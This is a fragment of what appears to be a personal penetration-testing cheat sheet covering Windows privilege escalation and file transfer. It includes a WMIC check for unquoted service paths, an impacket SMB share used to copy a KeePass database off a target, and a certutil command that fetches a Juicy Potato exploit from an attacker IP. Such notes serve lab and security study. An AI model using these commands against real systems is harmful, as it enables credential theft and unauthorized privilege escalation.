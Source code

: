 Detection in CMD
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

### SeManageVolumePrivilege 
[[Access]]

### SeMachineAccountPrivilege
[[Heist]]
### Automated Scripts
#### JAWS
Execute [JAWS](https://github.com/411Hall/JAWS) script 
# Transferring Files 

## SMB Server 

On Kali box
```
impacket-smbserver NameofShare `pwd`
```

On Target box 
```
New-PSDrive -Name "NameofDrive" -PSProvider "FileSystem" -Root "\\10.10.14.30\NameofShare"
```

Change into drive on target box
```
cd NameofDrive
```

Copy file to transfer into the directory 
```
cp C:\Windows\kohsuke\Documents\CEH.kdbx .
```

## SCP

## Command Prompt 
**Certutil**
```
certutil -urlcache -split -f http://192.168.45.152:8888/Juicy.Potato.x86.exe
```


# Hash Cracking 

## John 
